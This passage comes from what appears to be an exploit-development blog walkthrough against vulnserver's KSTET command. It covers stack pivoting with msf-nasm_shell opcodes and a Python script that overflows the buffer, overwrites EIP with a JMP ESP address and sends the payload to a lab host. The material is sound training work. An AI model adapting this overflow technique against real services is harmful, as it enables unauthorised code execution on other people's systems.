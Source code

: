 So, we have successfully redirected our program flow

Next we have to point it with our shellcode

But the main constraint here is our buffer size, it is so small to fit our shellcode in it

What we can do is, place an ```egg hunter / opcodes for re-using socket``` to get the second stage shellcode to exploit the program

In this blog we will try to exploit this by using ```socket reusage stager```

## Stack pivoting

Lets create the opcode value to drift back to EAX register using nasm-shell,

On EAX our ```KSTET``` value takes 6 bytes and lets other bytes as NOPs

```c
┌──(kali㉿aidenpearce369)-[~]
└─$ /usr/bin/msf-nasm_shell
nasm > add eax,0x10
00000000  83C010            add eax,byte +0x10
nasm > jmp eax
00000000  FFE0              jmp eax
```

Adding this opcode in our python script,

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/KSTET]
└─$ cat stack-pivot.py 
import socket, sys
payload=b""
# to overwrite buffer and EBP
payload+=b"\x90"*70
# to overwrite EIP with JMP ESP
payload+=b"\xaf\x11\x50\x62"
# stack pivot
payload+=b"\x90"
payload+=b"\x83\xc0\x10"
payload+=b"\xcc" # break point to analyse
payload+=b"\xff\xe0"
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"KSTET "+payload))
s.close()
sys.exit()
                                                                       
┌──(kali㉿aidenpearce369)-[~/vulnserver/KSTET]
└─$ python3 stack-pivot.py
```

After crashing our program, beyond EIP we can see our ```jmp eax```

<div align="center">
<img src="./res/kstet-1-sp1.png">
</div>
